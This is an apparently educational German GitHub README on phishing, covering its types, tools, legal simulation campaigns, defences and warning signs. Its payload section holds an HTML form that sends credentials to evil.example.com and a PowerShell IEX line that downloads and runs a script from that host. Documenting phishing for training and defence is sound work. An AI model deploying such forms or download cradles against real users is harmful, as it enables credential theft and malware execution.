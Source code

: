 # 🎣 Phishing – Social Engineering im Cyberspace

## Was ist Phishing?

**Phishing** ist eine Form des Social Engineerings, bei der Angreifer versuchen, sensible Informationen wie Zugangsdaten, Kreditkarteninformationen oder vertrauliche Unternehmensdaten durch Täuschung zu erlangen. Dies geschieht meist über gefälschte E-Mails, Webseiten oder Nachrichten, die von legitimen Quellen zu stammen scheinen.

---

## Inhaltsverzeichnis
- [Warum ist Phishing gefährlich?](#warum-ist-phishing-gefährlich)
- [Typen von Phishing](#typen-von-phishing)
- [Tools & Frameworks](#tools--frameworks)
- [Phishing-Kampagnen simulieren (Legal!)](#phishing-kampagnen-simulieren-legal)
- [Schutzmaßnahmen gegen Phishing](#schutzmaßnahmen-gegen-phishing)
- [Typische Merkmale einer Phishing-Mail](#typische-merkmale-einer-phishing-mail)
- [Beispielhafte Payloads & Angriffsformen](#beispielhafte-payloads--angriffsformen)
- [Nützliche Quellen & Lernmaterialien](#nützliche-quellen--lernmaterialien)
- [Haftungsausschluss](#haftungsausschluss)


## Warum ist Phishing gefährlich?

- Keine technische Schwachstelle notwendig – der Mensch ist das Ziel
- Sehr hohe Erfolgsquote bei ungeschulten Nutzern
- Einstiegspunkt für weitere Angriffe (z. B. Ransomware, interne Pivoting-Angriffe)
- Auch technische Fachkräfte sind nicht immun

---

## Typen von Phishing

| Typ                 | Beschreibung |
|---------------------|--------------|
| **Spear Phishing**  | Gezielte Angriffe auf bestimmte Personen, z. B. CFO, Admin |
| **Whaling**         | Hochrangige Zielpersonen (z. B. CEO, Vorstände) |
| **Clone Phishing**  | Duplikation legitimer E-Mails mit schädlichem Link/Anhang |
| **Voice Phishing (Vishing)** | Phishing über Telefonanrufe |
| **SMS Phishing (Smishing)** | Täuschung über SMS/WhatsApp-Nachrichten |
| **Pharming**        | Weiterleitung des Opfers über manipulierte DNS-Einträge |
| **Credential Harvesting** | Abgreifen von Zugangsdaten über gefälschte Login-Seiten |

---

## Tools & Frameworks

### Offensive Tools (nur zu Bildungszwecken!)

| Tool                 | Beschreibung |
|----------------------|--------------|
| **GoPhish**          | Open-Source Phishing Framework für Kampagnen |
| **SET (Social-Engineer Toolkit)** | Sammlung von Angriffsmethoden inkl. Mail- und Web-Phishing |
| **King Phisher**     | Phishing-Simulation mit E-Mail-Tracking |
| **Evilginx2**        | Man-in-the-middle Phishing mit 2FA-Bypass |
| **Modlishka**        | Reverse Proxy Phishing Tool |
| **Phishery**         | Word-Dokumente mit eingebetteten Login-Prompts |
| **Blackeye / Zphisher** | Templates für bekannte Login-Seiten (nur mit Zustimmung erlaubt!) |

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Phishing-Kampagnen simulieren (Legal!)

### Legal Compliance beachten
- Nur in Testumgebungen oder mit Zustimmung aller Beteiligten
- Für Awareness-Trainings & Security Audits
- DSGVO-konform planen und dokumentieren

### Beispielhafte Simulationskampagne
1. Zielgruppe auswählen (z. B. bestimmte Abteilung)
2. E-Mail-Typ auswählen (z. B. Paketdienst, Microsoft-Login, Urlaubsantrag)
3. Landing Page imitieren (z. B. Office365)
4. Tracking aktivieren (z. B. Klicks, Eingaben, Reaktionen)
5. Reporting & Schulung bereitstellen

---

## Schutzmaßnahmen gegen Phishing

### Technische Maßnahmen
- SPF, DKIM, DMARC korrekt konfigurieren
- E-Mail-Gateway mit Phishing-Filter
- Browser-Warnungen aktivieren (z. B. Google Safe Browsing)
- 2FA/MFA verpflichtend einsetzen

### Awareness & Schulung
- Regelmäßige Trainings für Mitarbeiter:innen
- Simulierte Phishing-Kampagnen
- Wiederholende Reminder („Nicht auf alles klicken“)

### Weitere Maßnahmen
- Passwortmanager verwenden
- Kein „Passwort-Recycling“
- Prüfung der URL vor Eingabe von Login-Daten
- Anti-Phishing-Banner in E-Mails einbinden

---

## Typische Merkmale einer Phishing-Mail

- Dringlichkeit („Ihr Konto wird gelöscht!“)
- Schlechte Grammatik / Übersetzung
- Absenderadresse gefälscht
- Linktext ≠ Ziel-URL
- Ungewöhnliche Anhänge (z. B. .iso, .lnk, .html)
- Emotionale Trigger (z. B. Angst, Belohnung)

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Beispielhafte Payloads & Angriffsformen

```html
<!-- Gefälschte Login-Seite (Credential Harvesting) -->
<form action="http://evil.example.com/login" method="post">
  <input type="text" name="username" />
  <input type="password" name="password" />
</form>
```

```powershell
# Phishing-Anhang per PowerShell
IEX (New-Object Net.WebClient).DownloadString("http://evil.example.com/payload.ps1")
```
---


## Nützliche Quellen & Lernmaterialien
- [GoPhish Project](https://github.com/gophish/gophish)
- [SET – Social Engineer Toolkit](https://github.com/trustedsec/social-engineer-toolkit)
- [Modlishka](https://github.com/drk1wi/Modlishka)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
